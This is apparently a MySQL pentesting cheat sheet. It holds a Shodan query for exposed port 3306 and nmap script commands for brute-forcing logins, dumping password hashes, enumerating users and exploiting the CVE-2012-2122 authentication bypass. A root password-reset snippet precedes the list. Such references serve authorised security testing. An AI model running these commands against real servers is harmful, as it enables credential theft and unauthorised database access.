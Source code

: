 ```sql
UPDATE mysql.user SET Password=PASSWORD('MyNewPass') WHERE User='root';
UPDATE mysql.user SET authentication_string=PASSWORD('MyNewPass') WHERE User='root';
FLUSH PRIVILEGES;
quit;
```

```bash
mysql -u username -p < manycommands.sql #A file with all the commands you want to execute
mysql -u root -h 127.0.0.1 -e 'show databases;'
```

# MYSQL Pentesting

| <img src="https://www.shodan.io/static/img/favicon.png" alt="https://www.shodan.io/static/img/favicon.png" width="20px" /> Shodan search query : |
| --- |
| port:3306 |

## Enumeration

```bash
# !!!! You should edit --script-args for your MYSQL Server !!!

# Audits MySQL database server security configuration
nmap -p 3306 --script mysql-audit --script-args "mysql-audit.username='root', \
  mysql-audit.password='foobar',mysql-audit.filename='nselib/data/mysql-cis.audit'" 192.168.x.x

# Bruteforce accounts and password against a MySQL Server
nmap --script=mysql-brute --script-args userdb=users.txt,passdb=passwords.txt -p 3306 192.168.x.x

# Attempts to list all databases on a MySQL server. (creds required)
nmap -sV --script=mysql-databases -p 3306 192.168.x.x

#Dumps the password hashes from an MySQL server in a format suitable (creds required)
nmap --script mysql-dump-hashes --script-args='username=root,password=secret' -p 3306 192.168.x.x

# Checks for MySQL servers with an empty password for root or anonymous.
nmap -sV --script=mysql-empty-password -p 3306 192.168.x.x

# Performs valid-user enumeration against MySQL server using a bug
nmap --script=mysql-enum -p 3306 192.168.x.x

# Connects to a MySQL server and prints information such as the protocol and version numbers, thread ID, status, capabilities, and the password salt.
nmap -sV -sC -p 3306 192.168.x.x

# Runs a query against a MySQL database and returns the results as a table. (creds required)
nmap --script mysql-query --script-args='query="<query>"[,username=<username>,password=<password>]' -p 3306 192.168.x.x

# Attempts to list all users on a MySQL server.
nmap -sV --script=mysql-users -p 3306 192.168.x.x

# Attempts to show all variables on a MySQL server.
nmap -sV --script=mysql-variables -p 3306 192.168.x.x

# Attempts to bypass authentication in MySQL and MariaDB servers by exploiting CVE2012-2122. If its vulnerable, it will also attempt to dump the MySQL usernames and password hashes. 
nmap --script mysql-vuln-cve2012-2122 -p3306 192.168.x.x
```
